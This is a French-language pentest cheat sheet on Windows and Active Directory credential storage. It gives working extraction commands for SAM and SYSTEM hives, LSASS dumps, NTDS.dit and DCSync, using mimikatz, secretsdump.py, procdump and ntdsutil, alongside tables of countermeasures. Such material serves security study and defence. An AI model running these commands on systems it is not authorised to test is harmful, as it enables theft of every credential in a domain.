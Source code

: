 # AD: Stored credentials
Fichiers Critiques : SAM, SYSTEM, SECURITY & NTDS.dit
|  Fichier | Emplacement | Contenu | Techniques d'extraction  |
| --- | --- | --- | --- |
|  SAM | C:\Windows\System32\config\SAM | Stocke les hashs NTLM des comptes locaux | samdump2, mimikatz, secretsdump.py  |
|  SYSTEM | C:\Windows\System32\config\SYSTEM | Contient la clé de chiffrement pour décrypter SAM | reg save, secretsdump.py -system SYSTEM -sam SAM LOCAL  |
|  SECURITY | C:\Windows\System32\config\SECURITY | Stocke les secrets LSA (mots de passe de services, clés DPAPI) + cred des users de domaine | mimikatz lsadump::secrets, secretsdump.py -security SECURITY LOCAL  |
|  NTDS.dit (DC) | C:\Windows\NTDS\NTDS.dit | Base de données Active Directory, contient les hashs NTLM & Kerberos de tout le domaine | ntdsutil, secretsdump.py -just-dc, mimikatz lsadump::dcsync  |
Techniques d'extraction Machine Membre d'un Domaine :
- Dump de SAM et SYSTEM pour obtenir les hash NTLM locaux :
  ```powershell
  reg save HKLM\SAM C:\temp\SAM.hive
  reg save HKLM\SYSTEM C:\temp\SYSTEM.hive
  ```
Extraction avec secretsdump.py :
  ```bash
  secretsdump.py -sam SAM -system SYSTEM LOCAL
  ```
- Extraction des secrets LSA :
  ```
  mimikatz
  lsadump::secrets
  ```
Contrôleur de Domaine (DC) :
- Dump de NTDS.dit :
  ```powershell
  ntdsutil "activate instance ntds" "ifm" "create full C:\temp\ntds" quit quit
  ```
- Extraction des hash NTLM/Kerberos via secretsdump.py :
  ```bash
  secretsdump.py -just-dc DOMAIN\Administrator@DC-IP
  ```
- Attaque DCSync pour récupérer les hash sans accès direct au serveur :
  ```
  mimikatz
  lsadump::dcsync /domain:MONDOMAINE /user:Administrateur
  ```
2 Stockage dans la Base de Registre
| Clé Registre | Emplacement | Contenu | Technique d'extraction |
| :--: | :--: | :--: | :--: |
| AutoLogon | HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon | Nom d'utilisateur et mot de passe en clair si AutoLogon activé | reg query, mimikatz sekurlsa::logonpasswords |
| MSCache | HKLM\SECURITY\Cache | Hashs NTLM en cache pour connexions horsligne | mimikatz lsadump::cache, secretsdump.py security SECURITY LOCAL |
| RDP Credentials | HKCU\Software\Microsoft\Terminal Server Client\Servers | Identifiants stockés pour sessions RDP | reg query, mimikatz sekurlsa::credman |
Techniques d'extraction
- Lister les credentials RDP enregistrés :
  ```powershell
  reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"
  ```
- Dump des credentials Windows Vault :
  ```
  mimikatz
  vault::list
  ```
# 3 LSASS (Local Security Authority Subsystem Service)
## Emplacement :
- En mémoire uniquement, accessible par dump du processus.
## Utilisation :
- Contient les credentials en clair ou sous forme de hash des utilisateurs connectés.
- Peut être protégé par Credential Guard sur Windows 10/11.
## Techniques d'extraction :
- Dump de LSASS avec Mimikatz (privilèges SYSTEM requis) :
  ```
  mimikatz
  sekurlsa::logonpasswords
  ```
- Dump manuel et analyse ultérieure :
  ```powershell
  procdump.exe -accepteula -ma lsass.exe lsass.dmp
  ```
  Puis extraction avec Mimikatz :
  ```
  mimikatz
  sekurlsa::minidump lsass.dmp
  sekurlsa::logonpasswords
  ```
# Windows Credential Manager (Vault)
## Emplacement :
- C:\Users\%USERNAME%\AppData\Local\Microsoft\Credentials\
- C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Credentials\
## Contenu :
- Stocke des identifiants Windows, RDP, Outlook, réseau.
## Techniques d'extraction :
- Lister les credentials enregistrés :
  ```powershell
  cmdkey /list
  ```
- Extraire les credentials avec Mimikatz :
  ```
  mimikatz
  vault::list
  ```
# 5 Scheduled Tasks & Services
## Emplacement :
- C:\Windows\System32\Tasks\
- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
## Utilisation :
- Contient des credentials pour exécuter des tâches planifiées avec un compte spécifique.
## Techniques d'extraction :
- Lister les tâches planifiées avec credentials :
  ```powershell
  schtasks /query /fo LIST /v
  ```
- Lister les services avec leurs credentials :
  ```powershell
  wmic service get name, displayname,startmode
  ```
Résumé des Attaques & Défenses
| Attaque | Objectif | Outils | Contre-mesures |
| :-- | :-- | :-- | :-- |
| Dump SAM & SYSTEM | Récupérer les hash NTLM | samdump2, secretsdump.py | Restriction d'accès, BitLocker |
| Dump LSASS | Credentials en clair | mimikatz, procdump | Credential Guard |
| Dump NTDS.dit | Hashs NTLM/Kerberos de tout le domaine | secretsdump.py -just-dc | Audit des DC, restriction d'accès |
| DCSync | Exfiltrer les hash NTLM des utilisateurs | mimikatz lsadump::dcsync | Restreindre Replicating Directory Changes |
# Conclusion
La sécurité des credentials sous Windows repose sur l'isolation des fichiers système, la protection des processus sensibles et le chiffrement. La meilleure défense est de limiter les privilèges, activer Credential Guard et surveiller les accès aux fichiers sensibles.
# Résumé des Stockages Locaux des Credentials d'un Utilisateur de Domaine
| Type de Machine | Fichier | Contenu Stocké | Méthode d'Extraction |
| :--: | :--: | :--: | :--: |
| Contrôleur de Domaine | NTDS.dit | Hash NTLM/Kerberos de tous les comptes du domaine | secretsdump.py -just-dc, mimikatz lsadump::dcsync |
| Machine Membre du Domaine | SECURITY | Hash NTLM/MScache des derniers utilisateurs du domaine connectés | mimikatz lsadump::cache, secretsdump.py -security |
| Mémoire Vive (LSASS) | lsass.exe | Credentials en clair ou sous forme de hash | mimikatz sekurlsa::logonpasswords, procdump |
## Contre-mesures
- Sur un DC :
  - Restreindre l'accès à NTDS.dit (utiliser le chiffrement EFS).
  - Activer LAPS pour éviter les mots de passe locaux fixes.
  - Activer Audit & Logging des accès aux comptes sensibles.
  - Restreindre DCSync aux seuls DC.
- Sur une machine membre du domaine :
  - Désactiver le cache des hash NTLM (HKLM\SECURITY\Cache).
  - Empêcher l'extraction de LSASS avec Credential Guard.
  - Surveiller l'accès aux fichiers SECURITY et SYSTEM.
## Conclusion
- NTDS.dit sur un DC contient tous les identifiants du domaine.
- SECURITY sur un PC membre du domaine peut stocker les hashs NTLM/MScache des derniers utilisateurs.
- LSASS en mémoire contient les credentials tant qu'un utilisateur est connecté.
La compromission de ces fichiers peut donner accès à tous les comptes du domaine, d'où la nécessité d'une protection renforcée.
